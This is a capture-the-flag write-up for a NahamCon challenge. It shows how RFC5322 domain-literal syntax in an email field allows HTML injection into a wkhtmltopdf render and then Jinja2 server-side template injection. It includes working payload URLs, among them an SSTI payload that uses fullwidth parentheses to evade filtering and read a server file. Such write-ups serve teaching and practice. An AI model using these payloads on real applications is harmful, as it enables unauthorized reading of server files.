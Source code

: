 # Deafcon

The premise of this challenge was similar to [Hacker TS](hacker-ts.md) - we had input that was rendered into a PDF using `wkhtmltopdf`. However, our payload had to fit the following constraints:

* `name` validated for alphanumeric characters
* `email` uses RFC5322 validation

The `email` parameter is naturally more realistic to exploit, so I dived into [RFC5322](https://datatracker.ietf.org/doc/html/rfc5322#section-3.4.1) and found the part that specified the allowed characters.

```
   addr-spec       =   local-part "@" domain

   local-part      =   dot-atom / quoted-string / obs-local-part

   domain          =   dot-atom / domain-literal / obs-domain

   domain-literal  =   [CFWS] "[" *([FWS] dtext) [FWS] "]" [CFWS]

   dtext           =   %d33-90 /          ; Printable US-ASCII
                       %d94-126 /         ;  characters not including
                       obs-dtext          ;  "[", "]", or "\"
```

The `email` is made up of `<local-part`>`@<domain>`, and interestingly the `domain` allows for a `domain-literal` format - `[<any printable ASCII character>]`.&#x20;

This allows us, for example, to use the following payload:

`http://challenge.nahamcon.com:31575/ticket?name=test&email=test@[<h1>test</h1>]`

My teammate Enyei then found that this endpoint was also vulnerable to SSTI - it seems that the input is first rendered into a Jinja2 template before being passed to `wkhtmltopdf`.&#x20;

The following will render the email as `test@[49]`, for instance:

`http://challenge.nahamcon.com:31575/ticket?name=test&email=test@[{{7*7}}]`

At this point, we can craft a payload that reads the `flag.txt` file:

`http://challenge.nahamcon.com:30555/ticket?name=a&email=a@[{{%20get_flashed_messages.__globals__.__builtins__.open%EF%BC%88%22flag.txt%22%EF%BC%89.read%EF%BC%88%EF%BC%89%20}}]`
